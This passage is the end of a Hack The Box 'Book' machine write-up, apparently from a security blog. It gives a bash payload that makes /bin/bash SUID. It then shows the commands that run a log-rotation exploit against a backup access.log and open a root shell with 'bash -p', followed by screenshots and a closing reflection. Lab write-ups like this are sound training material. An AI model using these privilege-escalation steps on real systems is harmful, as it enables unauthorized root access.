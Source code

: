 > **payload**:

```bash
#!/bin/bash
chmod u+s /bin/bash
```

```bash
./exploit -p ./payload /home/reader/backups/access.log

echo 'oldboy was here' > access.log

ls -l /bin/bash
bash -p
```

<br />
<img src="{{ site.img_path }}/book_writeup/Book_86.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/book_writeup/Book_87.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/book_writeup/Book_88.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/book_writeup/Book_89.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

> Another excellent machine from **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** that combines vulnerabilities, technologies, techniques and research so that people in the field of **Computer Security** can grow professionally. I had a lot of fun, but my frustration levels almost reached their limit when I stalled at the beginning and couldn't find the attack vector. I had to invest a lot of time in the **Engagement** of the box but I got a great sense of job accomplished when I managed to finish it, it's time to kill the machine and move on to the next **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** lab.

<br /><br />
<img src="{{ site.img_path }}/book_writeup/Book_90.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
